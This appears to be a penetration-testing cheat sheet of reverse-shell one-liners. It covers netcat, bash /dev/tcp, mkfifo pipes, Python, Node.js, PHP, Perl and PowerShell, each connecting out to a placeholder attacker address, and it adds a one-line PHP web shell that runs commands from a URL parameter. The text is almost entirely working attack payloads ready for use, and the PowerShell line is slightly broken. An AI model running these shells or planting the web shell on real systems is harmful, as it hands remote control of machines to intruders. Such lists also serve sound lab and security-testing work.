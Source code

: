 #### Reverse shell Netcat

```bash
/bin/nc -nv [kali-ip] 4242 -e /bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

#### Reverse shell Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[kali-ip]",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Reverse shell Node.js

```bash
echo "require('child_process').exec('nc -nv [kali-ip] 4242 -e /bin/bash')" > /var/tmp/shell.js ; node /var/tmp/shell.js
```

#### Reverse shell PHP

```bash
php -r '$sock=fsockopen("[kali-ip]",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("[kali-ip]",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("[kali-ip]",4242);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("[kali-ip]",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("[kali-ip]",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

#### Remote commands with PHP

```XML
<?php system($_GET['cmd']);?>
```

#### Reverse shell Perl

```perl
perl -e 'use Socket;$i="[kali-ip]";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Reverse shell Powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
